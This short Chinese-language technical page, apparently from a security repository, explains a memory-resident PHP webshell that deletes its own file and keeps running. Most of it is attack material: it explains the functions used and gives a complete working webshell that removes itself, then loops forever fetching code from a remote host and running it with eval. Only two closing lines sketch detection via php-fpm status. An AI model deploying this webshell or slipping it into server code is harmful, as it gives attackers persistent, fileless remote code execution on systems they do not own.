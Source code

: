 # 内存驻留webshell
## 一、攻击原理
php webshell文件执行后删除自身。此webshell在执行后会自身删除，驻留内存之中，无文件残留。其原理主要利用以下方法：
    `ignore_user_abort(true); // 后台运行`
这个函数的作用是指示服务器端在远程客户端关闭连接后是否继续执行下面的脚本。如设置为True，则表示如果用户停止脚本运行，仍然不影响脚本的运行
    `set_time_limit(0); // 取消脚本运行时间的超时上限`
括号里边的数字是执行时间，如果为零说明永久执行直到程序结束，如果为大于零的数字，则不管程序是否执行完成，到了设定的秒数，程序结束。
脚本也有可能被内置的脚本计时器中断。默认的超时限制为30秒。
这个值可以通过设置 `php.ini 的 max_execution_time` 或 `Apache .conf` 设置中对应的`“php_value max_execution_time”`参数或者 `set_time_limit()` 函数来更改。
php删除自身时借助的函数为
    `unlink($_SERVER['SCRIPT_FILENAME']);`
unlink函数运行条件较为苛刻，该脚本要具备可执行权限、可修改文件权限时方能执行。
简单的webshell脚本：
``` php 
    <?php
        chmod($_SERVER['SCRIPT_FILENAME'], 0777);
        unlink($_SERVER['SCRIPT_FILENAME']);
        ignore_user_abort(true);
        set_time_limit(0);
        echo "success";
        $remote_file = 'http://10.211.55.2/111/test.txt';
        while($code = file_get_contents($remote_file)){
        @eval($code);
        echo "xunhuan";
        sleep(5);
        };
    ?>
```
test.txt中的代码如下：
   ` file_put_contents('printTime.txt','jweny '.time());`
webshell执行后，删除自身，并在该目录生成 printTime.txt，每五秒一次写入一次时间戳。
## 二、检测方案
通过获取php-fpm status：
1. 检查所有php进程处理请求的持续时间
2. 检测执行文件是否在文件系统真实存在
